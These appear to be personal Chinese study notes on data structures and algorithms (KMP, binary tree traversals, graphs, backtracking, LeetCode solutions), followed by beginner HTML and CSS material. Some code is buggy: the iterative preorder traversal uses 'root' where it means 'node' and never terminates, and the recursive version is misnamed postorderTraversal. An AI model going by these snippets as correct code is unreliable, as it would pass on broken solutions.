KMP的主要思想是**当出现字符串不匹配时，可以知道一部分之前已经匹配的文本内容，可以利用这些信息避免从头再去做匹配了。**


前缀是指不包含最后一个字符的所有以第一个字符开头的连续子串。

后缀是指不包含第一个字符的所有以最后一个字符结尾的连续子串。

**前缀表要求的就是相同前后缀的长度。**

**前缀表是用来回退的，它记录了模式串与主串(文本串)不匹配的时候，模式串应该从哪里开始重新匹配。**

求前缀表

```c++
void getNext(string& s, int *next){
	next[0] = 0;
    int i = 0;
    for (int j = 1; j < s.size(); ++j){
    	while (s[i] != s[j] && i > 0){
        	i = next[i - 1];
        }
        if (s[i] == s[j]){
			i++;
        }
       		next[j] = i;
     }
}
```


#### **栈、队列**

栈提供push 和 pop 等等接口，所有元素必须符合先进后出规则，所以栈不提供走访功能，也不提供迭代器(iterator)。 不像是set 或者map 提供迭代器iterator来遍历所有元素。

**栈是以底层容器完成其所有的工作，对外提供统一的接口，底层容器是可插拔的（也就是说我们可以控制使用哪种容器来实现栈的功能）。**

所以STL中栈往往不被归类为容器，而被归类为container adapter（容器适配器）。


**常用的SGI STL，如果没有指定底层实现的话，默认是以deque为缺省情况下栈的低层结构。**

deque是一个双向队列，只要封住一段，只开通另一端就可以实现栈的逻辑了。

**SGI STL中 队列底层实现缺省情况下一样使用deque实现的。**


#### **二叉树**


**满二叉树**

满二叉树：如果一棵二叉树只有度为0的结点和度为2的结点，并且度为0的结点在同一层上，则这棵二叉树为满二叉树。

这棵二叉树为满二叉树，也可以说深度为k，有2^k-1个节点的二叉树。


**完全二叉树**

完全二叉树的定义如下：在完全二叉树中，除了最底层节点可能没填满外，其余每层节点数都达到最大值，并且最下面一层的节点都集中在该层最左边的若干位置。若最底层为第 h 层，则该层包含 1~ 2^(h-1)  个节点。

**优先级队列其实是一个堆，堆就是一棵完全二叉树，同时保证父子节点的顺序关系。**


**二叉搜索树**

前面介绍的树，都没有数值的，而二叉搜索树是有数值的了，**二叉搜索树是一个有序树**。

- 若它的左子树不空，则左子树上所有结点的值均小于它的根结点的值；
- 若它的右子树不空，则右子树上所有结点的值均大于它的根结点的值；
- 它的左、右子树也分别为二叉排序树

下面这两棵树都是搜索树


**平衡二叉搜索树**

平衡二叉搜索树：又被称为AVL（Adelson-Velsky and Landis）树，且具有以下性质：它是一棵空树或它的左右两个子树的高度差的绝对值不超过1，并且左右两个子树都是一棵平衡二叉树。

- 二叉树节点的深度：指从根节点到该节点的最长简单路径边的条数。
- 二叉树节点的高度：指从该节点到叶子节点的最长简单路径边的条数。


**二叉树遍历方式**

二叉树主要有两种遍历方式：

1. 深度优先遍历：先往深走，遇到叶子节点再往回走。
2. 广度优先遍历：一层一层的去遍历。

**这两种遍历是图论中最基本的两种遍历方式**，后面在介绍图论的时候 还会介绍到。

那么从深度优先遍历和广度优先遍历进一步拓展，才有如下遍历方式：

- 深度优先遍历
  - 前序遍历（递归法，迭代法）
  - 中序遍历（递归法，迭代法）
  - 后序遍历（递归法，迭代法）
- 广度优先遍历
  - 层次遍历（迭代法）

在深度优先遍历中：有三个顺序，前中后序遍历

**这里前中后，其实指的就是中间节点的遍历顺序**

看如下中间节点的顺序，就可以发现，中间节点的顺序就是所谓的遍历方式

- 前序遍历：中左右
- 中序遍历：左中右
- 后序遍历：左右中


**二叉树的定义**

```c++
struct TreeNode {
	int val;
    TreeNode *left;
    TreeNode *right;
    TreeNode() : val(0), left(nullptr), right(nullptr) {};
    TreeNode(int x) : val(x), left(nullptr), right(nullptr) {};
    TreeNode(int x, TreeNode *left, TreeNode *right) : val(x), left(left), right(right) {};
};
```


**深度优先**

递归法前序遍历二叉树

```cpp
void Traversal(TreeNode* root, vector<int> &obj){
	if (root == nullptr)
        return;
    obj.push_back(root->val);
    Traversal(root->left, obj);
    Traversal(root->right, obj);
}
vector<int> postorderTraversal(TreeNode* root) {
    vector<int> obj;
    Traversal(root, obj);
    return obj;
}
```


迭代法前序遍历二叉树

```cpp
vector<int> preorderTraversal(TreeNode* root) {
	vector<int> obj;
    stack<TreeNode *> st;
    if (root == nullptr)
        return obj;
    st.push(root);
    while (!st.empty()){
        TreeNode* node = st.top();
        obj.push_back(root->val);
        st.pop();
        if (root->right)
    	    st.push(root->right);
        if (root->left)    
            st.push(root->left);
    }
    return obj;
}
```

迭代法中序遍历

```cpp
vector<int> inorderTraversal(TreeNode* root) {
    vector<int> obj;
 	stack<TreeNode* > st;
 	TreeNode* node = root;
	while (node != nullptr || !st.empty()){
    	if (node){
			st.push(node);
        	node = node->left;
     	}
     	else{
     		node = st.top();
        	st.pop();
        	obj.push_back(node->val);
        	node = node->right;
    	}
    }
    return obj;
}
```


**广度优先**

```c++
vector<vector<int>> levelOrder(TreeNode* root) {
    vector<vector<int>> obj;
	queue<TreeNode *> qu;
    if (root != nullptr)
        qu.push(root);
    TreeNode* node;
    while (!qu.empty()){
        int size = qu.size();
        vector<int> vec;
        for (int i = 0; i < size; i++){
            node = qu.front();
            vec.push_back(node->val);
            qu.pop();
            if (node->left)
                qu.push(node->left);
            if (node->right)
                qu.push(node->right);
            }
        obj.push_back(vec);
    }
    return obj;
 }
```


#### 堆

堆是一种非线性结构，可以把堆看作一个数组，也可以被看作一个完全二叉树，通俗来讲堆其实就是利用完全二叉树的结构来维护的一维数组但堆并不一定是完全二叉树


#### 回溯

回溯法就是暴力搜索，并不是什么高效的算法，最多在剪枝一下。

回溯算法能解决如下问题：

- 组合问题：N个数里面按一定规则找出k个数的集合
- 排列问题：N个数按一定规则全排列，有几种排列方式
- 切割问题：一个字符串按一定规则有几种切割方式
- 子集问题：一个N个数的集合里有多少符合条件的子集
- 棋盘问题：N皇后，解数独等等


```
void backtracking(参数) {
    if (终止条件) {
        存放结果;
        return;
    }

    for (选择：本层集合中元素（树中节点孩子的数量就是集合的大小）) {
        处理节点;
        backtracking(路径，选择列表); // 递归
        回溯，撤销处理结果
    }
}
```


#### 图

**图 (Graph)** 是由若干给定的顶点及连接两顶点的边所构成的图形，这种图形通常用来描述某些事物之间的某种特定关系。顶点用于代表事物，连接两顶点的边则用于表示两个事物间具有这种关系。

使用 `G(V, E)` 表示一个图，V为顶点(Vertex)，E为边(Edge)。图中**不允许没有顶点**，但是可以没有边。


**有限图与无限图**

有限图：V, E 都是有限集合。

无限图：V 或 E 是无限集合。


**有向图与无向图**
无向图 (Undirected graph)：每个边都是无向边。

有向图 (Directed graph)：每个边都是有向边。


**度**

在无向图中，顶点的**度**是指某个顶点连出的边数

在有向图中，和度对应的是**入度**和**出度**这两个概念。顶点的入度是指以该顶点为终点的有向边数量；顶点的出度是指以顶点为起点的有向边数量。在有向图里，顶点是没有度的概念的。


**其他**

- 路径：从一个顶点到另一个顶点之间经过的所有顶点的集合。
- 路径长度：一条路径上经过的边的数量。
- 环：起点和终点为同一个顶点的路径。
- 连通性：两个不同顶点之间存在至少一条路径，则称这两个顶点是连通的


**图的存储（无权值）**

邻接矩阵
所谓邻接矩阵存储结构就每个顶点用一个一维数组存储边的信息，这样所有点合起来就是用矩阵表示图中各顶点之间的邻接关系。所谓矩阵其实就是二维数组。
对于有n个顶点的图 G=(V,E) 来说，我们可以用一个 n×n 的矩阵 A 来表示 G 中各顶点的相邻关系。


邻接表 
使用一个支持动态增加元素的数据结构构成的数组，例如Java中的 List[] adj。

领接表中 adj[u] 存储的是点 u 所有出边的信息（终点、边权等）。

逆邻接表中 adj[u] 存储的是点 u 所有入边的信息（起点、边权等）。


### leetcode


异或查找不同数

```c++
//268
int missingNumber(vector<int>& nums) {
    int ret = 0;
    for ( int i = 0; i < nums.size(); i++){
        ret ^= nums[i];
    }
    for ( int i = 0; i < nums.size() + 1; i++){
        ret ^= i;
    }
	return ret;
}
```


二分法求平方根

```c++
//69
int mySqrt(int x) {
	long long l = 0, r = 1000000;
    long long ret = 0;
    while (l <= r){
    	long long mid = (l + r) / 2;
        if (mid * mid <= x ){
         	ret = mid;
            l = mid + 1;
        }
        else{
        	r = mid - 1; 
        }
    }
    return ret;
}
```


非递归求斐波拉契数列

```c++
//509
int fibnum[101];
int fib(int n) {
    fibnum[1] = 1;
    for (int i = 2; i <= n; i++){
    	fibnum[i] = fibnum[i - 1] + fibnum[i - 2]; 
    }
	return fibnum[n];
}
```


前缀和


# HTML

#### 概述

HTML 是用来描述网页的一种语言。

- HTML 指的是超文本标记语言 (**H**yper **T**ext **M**arkup **L**anguage)
- HTML 不是一种编程语言，而是一种*标记语言* (markup language)
- 标记语言是一套*标记标签* (markup tag)
- HTML 使用*标记标签*来描述网页

HTML 标记标签通常被称为 HTML 标签 (HTML tag)。

- HTML 标签是由*尖括号*包围的关键词，比如 <html>
- HTML 标签通常是*成对出现*的，比如 `<b> 和 </b>`
- 标签对中的第一个标签是*开始标签*，第二个标签是*结束标签*
- 开始和结束标签也被称为*开放标签*和*闭合标签*

HTML 文档描述网页, 文档包含 HTML 标签和纯文本, 文档也被称为网页。

Web 浏览器的作用是读取 HTML 文档，并以网页的形式显示出它们。浏览器不会显示 HTML 标签，而是使用标签来解释页面的内容。

**HTML 文档是由 HTML 元素定义的。**

HTML 元素

HTML 元素指的是从开始标签（start tag）到结束标签（end tag）的所有代码。

| 开始标签                | 元素内容            | 结束标签 |
| :---------------------- | :------------------ | :------- |
| <p>                     | This is a paragraph | </p>     |
| <a href="default.htm" > | This is a link      | </a>     |
| <br />                  |                     |          |

**注释：**开始标签常被称为开放标签（opening tag），结束标签常称为闭合标签（closing tag）。

HTML 元素语法

- HTML 元素以*开始标签*起始
- HTML 元素以*结束标签*终止
- *元素的内容*是开始标签与结束标签之间的内容
- 某些 HTML 元素具有*空内容（empty content）*
- 空元素*在开始标签中进行关闭*（以开始标签的结束而结束）
- 大多数 HTML 元素可拥有*属性*


HTML 标题（Heading）是通过 <h1> - <h6> 等标签进行定义的。

HTML 段落是通过 <p> 标签进行定义的

HTML 链接是通过 <a> 标签进行定义的。

HTML 图像是通过  标签进行定义的。（图像的名称和尺寸是以属性的形式提供的）

HTML注释是通过 <!--...--> 标签

HTML 页面中创建水平线通过<hr /> 标签

`<br />`元素是一个空的 HTML 元素。由于关闭标签没有任何意义，因此它没有结束标签。


HTML 属性

HTML 标签可以拥有*属性*。属性提供了有关 HTML 元素的*更多的信息*。

属性总是以名称/值对的形式出现，比如：*name="value"*。

属性总是在 HTML 元素的*开始标签*中规定。

**下面列出了适用于大多数 HTML 元素的属性：**

| 属性  | 值               | 描述                                     |
| :---- | :--------------- | :--------------------------------------- |
| class | classname        | 规定元素的类名（classname）              |
| id    | *id*             | 规定元素的唯一 id                        |
| style | style_definition | 规定元素的行内样式（inline style）       |
| title | text             | 规定元素的额外信息（可在工具提示中显示） |


style 属性用于改变 HTML 元素的样式。

style 属性的作用：**提供了一种改变所有 HTML 元素的样式的通用方法。**通过 HTML 样式，能够通过使用 style 属性直接将样式添加到 HTML 元素，或者间接地在独立的样式表中（CSS 文件）进行定义。

background-color 属性为元素定义了背景颜色,

font-family、color 以及 font-size 属性分别定义元素中文本的字体样式、颜色和字体尺寸，

text-align 属性规定了元素中文本的水平对齐方式。通过;隔开。

```
<h1 style="font-family: 'serif';color: brown; size: A4">this is the html</h1>
```


| 标签    | 描述                           |
| :------ | :----------------------------- |
| <style> | 定义样式定义。                 |
| <link>  | 定义资源引用。                 |
| <div>   | 定义文档中的节或区域（块级）。 |
| <span>  | 定义文档中的行内的小块或区域。 |


#### 字体

格式化输出的元素，比如粗体和斜体字

| 标签     | 描述           |
| :------- | :------------- |
| <b>      | 定义粗体文本。 |
| <big>    | 定义大号字。   |
| <em>     | 定义着重文字。 |
| <i>      | 定义斜体字。   |
| <samll>  | 定义小号字。   |
| <strong> | 定义加重语气。 |
| <sub>    | 定义下标字。   |
| <ins>    | 定义插入字。   |
| <del>    | 定义删除字     |


“计算机输出”标签

| 标签   | 描述                 |
| :----- | :------------------- |
| <code> | 定义计算机代码。     |
| <kbd>  | 定义键盘码。         |
| <samp> | 定义计算机代码样本。 |
| <tt>   | 定义打字机代码。     |
| <var>  | 定义变量。           |
| <pre>  | 定义预格式文本。     |

引用、引用和术语定义

| 标签         | 描述               |
| :----------- | :----------------- |
| <abbr>       | 定义缩写。         |
| <acronym>    | 定义首字母缩写。   |
| <address>    | 定义地址。         |
| <bdo>        | 定义文字方向。     |
| <blockquote> | 定义长的引用。     |
| <q>          | 定义短的引用语。   |
| <cite>       | 定义引用、引证。   |
| <def>        | 定义一个定义项目。 |


#### HTML 超链接（链接/图像

超链接可以是一个字，一个词，或者一组词，也可以是一幅图像，您可以点击这些内容来跳转到新的文档或者当前文档中的某个部分。

当您把鼠标指针移动到网页中的某个链接上时，箭头会变为一只小手。

我们通过使用 <a> 标签在 HTML 中创建链接。

有两种使用 <a> 标签的方式：

1. 通过使用 href 属性 - 创建指向另一个文档的链接
2. 通过使用 name 属性 - 创建文档内的书签
3. 使用 target 属性，你可以定义被链接的文档在何处显示（打开新窗口）。

```
<a href="url"></a>
```


在 HTML 中，图像由  标签定义。

 是空标签，意思是说，它只包含属性，并且没有闭合标签。

要在页面上显示图像，你需要使用源属性（src）。src 指 "source"。源属性的值是图像的 URL 地址。

定义图像的语法是：

```

```


#### 表格

表格由 <table> 标签来定义。每个表格均有若干行（由 <tr> 标签定义），每行被分割为若干单元格（由 <td> 标签定义）。字母 td 指表格数据（table data），即数据单元格的内容。数据单元格可以包含文本、图片、列表、段落、表单、水平线、表格等等。

```
<table>
    <tr>
        <td>100</td>
        <td>200</td>
    </tr>
    <tr>
        <td>300</td>
        <td>400</td>
    </tr>
</table>
```


| 表格       | 描述                   |
| :--------- | :--------------------- |
| <table>    | 定义表格               |
| <caption>  | 定义表格标题。         |
| <th>       | 定义表格的表头。       |
| <tr>       | 定义表格的行。         |
| <td>       | 定义表格单元。         |
| <thead>    | 定义表格的页眉。       |
| <tbody>    | 定义表格的主体。       |
| <tfoot>    | 定义表格的页脚。       |
| <col>      | 定义用于表格列的属性。 |
| <colgroup> | 定义表格列的组。       |

#### 列表

无序列表是一个项目的列表，此列项目使用粗体圆点（典型的小黑圆圈）进行标记。

无序列表始于 <ul> 标签。每个列表项始于 <li>。

同样，有序列表也是一列项目，列表项目使用数字进行标记。

有序列表始于 <ol> 标签。每个列表项始于 <li> 标签。

```
<ul>
    <li>A</li>
    <li>B</li>
</ul>
<ol start="4">
    <li>A</li>
    <li>B</li>
</ol>
```


**列表标签**

| 标签 | 描述             |
| :--- | :--------------- |
| ol   | 定义有序列表。   |
| ul   | 定义无序列表。   |
| li   | 定义列表项。     |
| dl   | 定义定义列表。   |
| dt   | 定义定义项目。   |
| dd   | 定义定义的描述。 |


#### 块

大多数 HTML 元素被定义为块级元素或内联元素，块级元素在浏览器显示时，通常会以新行来开始（和结束）。

例子：<h1>, <p>, <ul>, <table>

内联元素在显示时通常不会以新行开始。

例子：<b>, <td>, <a>, 


**可以通过 <div> 和 <span> 将 HTML 元素组合起来。**

 `<div>`是一个块级元素。这意味着它的内容自动地开始一个新行。实际上，换行是 `<div>` 固有的唯一格式表现。可以通过 `<div>` 的 class 或 id 应用额外的样式。

`<div>` 可定义文档中的分区或节（division/section）。

`<div>`标签可以把文档分割为独立的、不同的部分。它可以用作严格的组织工具，并且不使用任何格式与其关联。

如果用 id 或 class 来标记 `<div>`，那么该标签的作用会变得更加有效。

不必为每一个 `<div>` 都加上类或 id，虽然这样做也有一定的好处。

可以对同一个 `<div>` 元素应用 class 或 id 属性，但是更常见的情况是只应用其中一种。这两者的主要差异是，class 用于元素组（类似的元素，或者可以理解为某一类元素），而 id 用于标识单独的唯一的元素。


 <span> 元素是内联元素，可用作文本的容器。

<span> 标签被用来组合文档中的行内元素。如果不对 span 应用样式，那么 span 元素中的文本与其他文本不会任何视觉上的差异。尽管如此，上例中的 span 元素仍然为 p 元素增加了额外的结构。

可以为 span 应用 id 或 class 属性，这样既可以增加适当的语义，又便于对 span 应用样式。

可以对同一个 <span> 元素应用 class 或 id 属性，但是更常见的情况是只应用其中一种。这两者的主要差异是，class 用于元素组（类似的元素，或者可以理解为某一类元素），而 id 用于标识单独的唯一的元素。

```
<head>
    <style>
        p.tip span {
            font-weight:bold;
            color:slateblue;
        }
    </style>
</head>
<p class="tip"><span>a</span>... ... ...</p>
```


#### 类

对 HTML 进行分类（设置类），使我们能够为元素的类定义 CSS 样式。

为相同的类设置相同的样式，或者为不同的类设置不同的样式。

```html
<head>
    <style>
        p.tip span{     <!--定义p专属span-->
            font-weight:bold;
            color:slateblue;
        }
        .cities {		<!--定义公用-->
            background-color:black;
            color:white;
            margin:20px;
            padding:20px;
        }
        span.red {		<!--定义span专属-->
            color:red;
        }
    </style>
</head>
```


#### id

**HTML `id` 属性用于 为HTML 元素指定唯一的 id。**

**一个 HTML文档中不能存在多个有相同 id 的元素。**

使用 id 属性

`id` 属性指定 HTML 元素的唯一 ID。 `id` 属性的值在 HTML 文档中必须是唯一的。

`id` 属性用于指向样式表中的特定样式声明。JavaScript 也可使用它来访问和操作拥有特定 ID 的元素。

id 的语法是：写一个井号 (#)，后跟一个 id 名称。然后，在花括号 {} 中定义 CSS 属性。

```
<head>
<style>
/* 设置 id 为 "myHeader" 的元素的样式 */
#myHeader {
  background-color: lightblue;
  color: black;
  padding: 40px;
  text-align: center;
}
 </style>
</head>
```

**Class 与 ID 的差异**
同一个类名可以由多个 HTML 元素使用，而一个 id 名称只能由页面中的一个 HTML 元素使用


iframe 元素会创建包含另外一个文档的内联框架（即行内框架）

添加 iframe 的语法

```
<iframe src="URL"></iframe>
```

*URL* 指向隔离页面的位置。

Iframe - 设置高度和宽度，height 和 width 属性用于规定 iframe 的高度和宽度。

Iframe - 删除边框，frameborder 属性规定是否显示 iframe 周围的边框。设置属性值为 "0" 就可以移除边框：

使用 iframe 作为链接的目标，iframe 可用作链接的目标（target）。链接的 target 属性必须引用 iframe 的 name 属性


#### HTML 头部

`<head>` 元素是所有头部元素的容器。<head> 内的元素可包含脚本，指示浏览器在何处可以找到样式表，提供元信息，等等。

以下标签都可以添加到 head 部分：<title>、<base>、<link>、<meta>、<script> 以及 <style>。

`<title>`标签定义文档的标题。

title 元素在所有 HTML/XHTML 文档中都是必需的。

title 元素能够：

- 定义浏览器工具栏中的标题
- 提供页面被添加到收藏夹时显示的标题
- 显示在搜索引擎结果中的页面标题


`<base>` 标签为页面上的所有链接规定默认地址或默认目标（target）。通常情况下，浏览器会从当前文档的 URL 中提取相应的元素来填写相对 URL 中的空白。

使用 <base> 标签可以改变这一点。浏览器随后将不再使用当前文档的 URL，而使用指定的基本 URL 来解析所有的相对 URL。这其中包括 <a>、、<link>、<form> 标签中的 URL。

```
<head>
<base href="" />相对路径
<base target="_blank" />跳转
</head>
```


<link> 标签定义文档与外部资源之间的关系。<link> 标签最常用于连接样式表


`<style>` 标签用于为 HTML 文档定义样式信息。可以在 style 元素内规定 HTML 元素在浏览器中呈现的样式


元数据（metadata）是关于数据的信息。

`<meta>` 标签提供关于 HTML 文档的元数据。元数据不会显示在页面上，但是对于机器是可读的。

典型的情况是，meta 元素被用于规定页面的描述、关键词、文档的作者、最后修改时间以及其他元数据。

`<meta>` 标签始终位于 head 元素中。

元数据可用于浏览器（如何显示内容或重新加载页面），搜索引擎（关键词），或其他 web 服务。

针对搜索引擎的关键词,一些搜索引擎会利用 meta 元素的 name 和 content 属性来索引您的页面。

```
<meta name="description" content="Free Web tutorials on HTML, CSS, XML" />
```

下面的 meta 元素定义页面的关键词：

```
<meta name="keywords" content="HTML, CSS, XML" />
```

name 和 content 属性的作用是描述页面的内容。


#### 框架标签（Frame）

Frame 标签定义了放置在每个框架中的 HTML 文档。

在下面的这个例子中，我们设置了一个两列的框架集。第一列被设置为占据浏览器窗口的 25%。第二列被设置为占据浏览器窗口的 75%。HTML 文档 "frame_a.htm" 被置于第一个列中，而 HTML 文档 "frame_b.htm" 被置于第二个列中：

```
<frameset cols="25%,75%">
   <frame src="frame_a.htm">
   <frame src="frame_b.htm">
</frameset>
```


#### `<form>` 元素

HTML 表单用于收集用户输入。

`<form>` 元素定义 HTML 表单

```
<form>
 .
form elements
 .
</form>
```


HTML 表单包含*表单元素*。

表单元素指的是不同类型的 input 元素、复选框、单选按钮、提交按钮等等。

<input> 元素

*<input>* 元素是最重要的*表单元素*。

<input> 元素有很多形态，根据不同的 *type* 属性。

这是本章中使用的类型：

| 类型   | 描述                                 |
| :----- | :----------------------------------- |
| text   | 定义常规文本输入。                   |
| radio  | 定义单选按钮输入（选择多个选择之一） |
| submit | 定义提交按钮（提交表单）             |

文本输入

*<input type="text">* 定义用于*文本输入*的单行输入字段：

```
<form>
 First name:<br>
<input type="text" name="firstname">
<br>
 Last name:<br>
<input type="text" name="lastname">
</form> 
```


单选按钮输入

*<input type="radio">* 定义*单选按钮*。

单选按钮允许用户在有限数量的选项中选择其中之一：

```
<form>
<input type="radio" name="sex" value="male" checked>Male
<br>
<input type="radio" name="sex" value="female">Female
</form> 
```


提交按钮

*<input type="submit">* 定义用于向*表单处理程序*（form-handler）*提交*表单的按钮。

表单处理程序通常是包含用来处理输入数据的脚本的服务器页面。

表单处理程序在表单的 *action* 属性中指定：

```
<form action="action_page.php">
First name:<br>
<input type="text" name="firstname" value="Mickey">
<br>
Last name:<br>
<input type="text" name="lastname" value="Mouse">
<br><br>
<input type="submit" value="Submit">
</form> 
```

###### 属性

Action 属性

`action` 属性定义提交表单时要执行的操作。

通常，当用户单击“提交”按钮时，表单数据将发送到服务器上的文件中。

在下面的例子中，表单数据被发送到名为 "test.php" 的文件。该文件包含处理表单数据的服务器端脚本。

提交后，将表单数据发送到 "test.php",如果省略 action 属性，则将 action 设置为当前页面.

```
<form action="/test.php">
  <label for="fname">First name:</label><br>
  <input type="text" id="fname" name="fname"><br>
  <label for="lname">Last name:</label><br>
  <input type="text" id="lname" name="lname"><br><br>
  <input type="submit" value="Submit">
</form>
```


Target 属性

`target` 属性规定提交表单后在何处显示响应。

`target` 属性可设置以下值之一：

| 值        | 描述                           |
| :-------- | :----------------------------- |
| _blank    | 响应显示在新窗口或选项卡中。   |
| _self     | 响应显示在当前窗口中。         |
| _parent   | 响应显示在父框架中。           |
| _top      | 响应显示在窗口的整个 body 中。 |
| framename | 响应显示在命名的 iframe 中。   |

默认值为 `_self`，这意味着响应将在当前窗口中打开。


Method 属性

method 属性指定提交表单数据时要使用的 HTTP 方法。

表单数据可以作为 URL 变量（使用 `method="get"`）或作为 HTTP post 事务（使用 `method="post"`）发送。

提交表单数据时，默认的 HTTP 方法是 GET。

**关于 GET 的注意事项：**

- 以名称/值对的形式将表单数据追加到 URL
- 永远不要使用 GET 发送敏感数据！（提交的表单数据在 URL 中可见！）
- URL 的长度受到限制（2048 个字符）
- 对于用户希望将结果添加为书签的表单提交很有用
- GET 适用于非安全数据，例如 Google 中的查询字符串

**关于 POST 的注意事项：**

- 将表单数据附加在 HTTP 请求的正文中（不在 URL 中显示提交的表单数据）
- POST 没有大小限制，可用于发送大量数据。
- 带有 POST 的表单提交无法添加书签

**提示：**如果表单数据包含敏感信息或个人信息，请务必使用 POST！


###### 元素

`<select>` 元素定义下拉列表

*<option>* 元素定义待选择的选项。

列表通常会把首个选项显示为被选选项。

您能够通过添加 selected 属性来定义预定义选项。

```
<select name="cars">
<option value="volvo">Volvo</option>
<option value="saab">Saab</option>
<option value="fiat">Fiat</option>
<option value="audi">Audi</option>
</select>
```


*<textarea>* 元素

*<textarea>* 元素定义多行输入字段（*文本域*）：

```
<textarea name="message" rows="10" cols="30">
The cat was playing in the garden.
</textarea>
```


<button> 元素

*<button>* 元素定义可点击的*按钮*：

```
<button  onclick="myFunction()">
<button type="button" onclick="alert('Hello World!')">Click Me!</button>
```


###### 输入类型

输入类型：text

*<input type="text">* 定义供*文本输入*的单行输入字段：

输入类型：password

*<input type="password">* 定义*密码字段*：

输入类型：submit

*<input type="submit">* 定义*提交*表单数据至*表单处理程序*的按钮。

表单处理程序（form-handler）通常是包含处理输入数据的脚本的服务器页面。

输入类型：radio

<input type="radio"> 定义单选按钮。

输入类型：checkbox

<input type="checkbox"> 定义复选框。

复选框允许用户在有限数量的选项中选择零个或多个选项。

输入类型：button

<input type="button“> 定义*按钮*。

输入类型：number

*<input type="number">* 用于应该包含数字值的输入字段。

您能够对数字做出限制。


**value 属性**

*value* 属性规定输入字段的初始值：

**readonly 属性**

*readonly* 属性规定输入字段为只读（不能修改）

**disabled 属性**

*disabled* 属性规定输入字段是禁用的。

被禁用的元素是不可用和不可点击的。

被禁用的元素不会被提交。

**size 属性**

*size* 属性规定输入字段的尺寸（以字符计）


**<object>** 元素

所有浏览器均支持 `<object>` 元素。

`<object>` 元素定义 HTML 文档中的嵌入式对象。

它旨在将插件（例如 Java applet、PDF 阅读器和 Flash 播放器）嵌入网页中，但也可以用于将 HTML 包含在 HTML 中

```
<object height="100" width="100" data="song.mp3"></object>
```

`<embed>` 元素

所有主要浏览器均支持 `<embed>` 元素。

`<embed>` 元素也可定义了 HTML 文档中的嵌入式对象。

```
<embed height="100" width="100" src="song.mp3" />
```


`<audio>` 元素

```
<audio controls="controls">
  <source src="song.mp3" type="audio/mp3" />
  <source src="song.ogg" type="audio/ogg" />
</audio>
```


`<video>`元素

```
<video width="320" height="240" controls="controls">
  <source src="movie.mp4" type="video/mp4" />
  <source src="movie.ogg" type="video/ogg" />
  <source src="movie.webm" type="video/webm" />
</video>
```


# CSS

#### 概述

CSS简介

- *CSS* 指的是层叠样式表* (*C*ascading *S*tyle *S*heets)
- CSS 描述了*如何在屏幕、纸张或其他媒体上显示 HTML 元素*
- CSS *节省了大量工作*。它可以同时控制多张网页的布局
- 外部样式表存储在 *CSS 文件*中


CSS 规则集（rule-set）由选择器和声明块组成：


选择器指向您需要设置样式的 HTML 元素。

声明块包含一条或多条用分号分隔的声明。

每条声明都包含一个 CSS 属性名称和一个值，以冒号分隔。

多条 CSS 声明用分号分隔，声明块用花括号括起来


外部样式表

当样式需要被应用到很多页面的时候，外部样式表将是理想的选择。使用外部样式表，你就可以通过更改一个文件来改变整个站点的外观。外部样式表可以在任何文本编辑器中编写，并且必须以 .css 扩展名保存。外部 .css 文件不应包含任何 HTML 标签。

```
<head>
<link rel="stylesheet" type="text/css" href="mystyle.css">
</head>
```

内部样式表

当单个文件需要特别样式时，就可以使用内部样式表。你可以在 head 部分通过 <style> 标签定义内部样式表。

```
<head>

<style type="text/css">
body {background-color: red}
p {margin-left: 20px}
</style>
</head>
```

内联样式

当特殊的样式需要应用到个别元素时，就可以使用内联样式。使用内联样式的方法是在相关的标签中使用样式属性。样式属性可以包含任何 CSS 属性。以下实例显示出如何改变段落的颜色和左外边距。

```
<p style="color: red; margin-left: 20px">
This is a paragraph
</p>
```


```
<head>
    <style>
        p{
            color:yellow;
        }
    </style>
</head>
```


CSS id 选择器

id 选择器使用 HTML 元素的 id 属性来选择特定元素。

元素的 id 在页面中是唯一的，因此 id 选择器用于选择一个唯一的元素！

要选择具有特定 id 的元素，请写一个井号（＃），后跟该元素的 id。


CSS 类选择器
类选择器选择有特定 class 属性的 HTML 元素。

如需选择拥有特定 class 的元素，请写一个句点（.）字符，后面跟类名。


CSS 通用选择器

通用选择器（*）选择页面上的所有的 HTML 元素。


CSS 分组选择器

分组选择器选取所有具有相同样式定义的 HTML 元素(h1、h2 和 p 元素)。


#### 颜色

**RGB 值**

rgb(*red*, *green*, *blue*)

每个参数 (*red*、*green* 以及 *blue*) 定义了 0 到 255 之间的颜色强度。

例如，rgb(255, 0, 0) 显示为红色，因为红色设置为最大值（255），其他设置为 0。

要显示黑色，请将所有颜色参数设置为 0，如下所示：rgb(0, 0, 0)。

要显示白色，请将所有颜色参数设置为 255，如下所示：rgb(255, 255, 255)

**RGBA 值**

RGBA 颜色值是具有 alpha 通道的 RGB 颜色值的扩展 - 它指定了颜色的不透明度。

RGBA 颜色值指定为：

rgba(*red*, *green*, *blue*, *alpha*)

*alpha* 参数是介于 0.0（完全透明）和 1.0（完全不透明）之间的数字

**HSL 值**

在 CSS 中，可以使用色相、饱和度和明度（HSL）来指定颜色，格式如下：

hsla(*hue*, *saturation*, *lightness*)

色相（*hue*）是色轮上从 0 到 360 的度数。0 是红色，120 是绿色，240 是蓝色。

饱和度（*saturation*）是一个百分比值，0％ 表示灰色阴影，而 100％ 是全色。

亮度（*lightness*）也是百分比，0％ 是黑色，50％ 是既不明也不暗，100％是白色。

背景颜色

```
<h1 style="background-color:DodgerBlue;">China</h1>
<h1 style="background-color:rgb(0, 0, 0);">rgb(0, 0, 0)</h1>
<h1 style="background-color:#000000;">#000000</h1>
<h1 style="background-color:hsl(0, 100%, 50%);">hsl(0, 100%, 50%)</h1>
```

文本颜色

```
<h1 style="color:Tomato;">China</h1>
```

 边框颜色

```
<h1 style="border:2px solid Tomato;">Hello World</h1>
```


#### 背景

`background-color` 属性指定元素的背景色。

页面的背景色设置如下：

```
body {
  background-color: lightblue;
}
```

不透明度 / 透明度

opacity 属性指定元素的不透明度/透明度。取值范围为 0.0 - 1.0。值越低，越透明：

```
div {
  background-color: green;
  opacity: 0.3;
}
```

使用 `opacity` 属性为元素的背景添加透明度时，其所有子元素都继承相同的透明度。这可能会使完全透明的元素内的文本难以阅读。

 **背景图像**

`background-image` 属性指定用作元素背景的图像。

默认情况下，图像会重复，以覆盖整个元素。

页面的背景图像可以像这样设置：

```
body {
  background-image: url("paper.gif");
}
```

**background-repeat**

默认情况下，`background-image` 属性在水平和垂直方向上都重复图像

仅在水平方向重复 (`background-repeat: repeat-x;`

如需垂直重复图像，请设置 `background-repeat: repeat-y;`

`background-repeat` 属性还可指定只显示一次背景图像。

```
body {
  background-image: url("");
  background-repeat: repeat-x;
}
```

`background-position` 属性用于指定背景图像的位置。


**background-attachment**

